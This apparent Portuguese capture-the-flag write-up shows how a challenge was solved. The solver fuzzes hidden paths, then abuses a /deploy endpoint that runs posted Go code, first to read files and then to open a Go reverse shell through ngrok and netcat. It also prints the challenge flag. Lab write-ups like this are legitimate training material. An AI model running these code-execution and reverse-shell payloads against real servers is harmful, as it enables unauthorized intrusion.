






Para acessar o desafio, siga estas etapas:

Acesse a página do desafio. Ao entrar, você verá a seguinte imagem:



Após encontrar irá utilizar fuzer, com o ffuf ou gobuster para encontrar path que não estão aparente, após rodar irá encontrar os seguintes path

```sh
/public -> pasta publica
/health -> verificação de container ativo
/deploy
```

após encontrar a pasta publica terá que encontrar um arquivo dentro dela mas a mesma só recebe query params, segue a imagem abaixo:



com base nisso terá que rodar um novo fuzzer mas com uma terminação aparente que é .sh, após rodar o fuzzy irá encontrar a seguinte arquivo.




Após encontrar esse arquivo, ele irá dar uma flag por conta do fuzz, com isso iremos rodar o comando que achamos.

```sh
curl -X POST -d 'package main
import (
		"fmt"
		"os/exec"
)

func main() {
		// Comando para executar o script shell
		cmd := exec.Command("cat", "flag.txt")

		// Executa o comando e captura
		output, err := cmd.CombinedOutput()      
		if err != nil {
				fmt.Println("Erro ao executar o script:", err)
				return
		}
		// Imprime 
		fmt.Println(string(output)) 
}
' http://localhost:8080/deploy

```
Retornando o seguinte valor:



Com o retorno acima identificamos que não tem flag nesse arquivo mas nos dar portas para acessar esse container usando shell reverse em golang.

Primeiro passo crie um proxy reverse com ngrok



Após subir o container coloque o seu ngrock no campo do shell com shell reverse para a port a do seu nc

nc 
```sh
nc -l 127.0.0.1 4444
```
curl
```sh
curl -X POST -v \
  -d 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","seu_host_aqui_com_a_porta");cmd:=exec.Command("sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' \
```



Após rodamos o seguinte comando:

```sh
/bin/bash -i 
```

Agora vá para pasta chamada public/flag_pwn.txt

```sh
cat ../public/flag_pwn.txt
# Extreme{6630db853468e9c768a584981349e924}
```
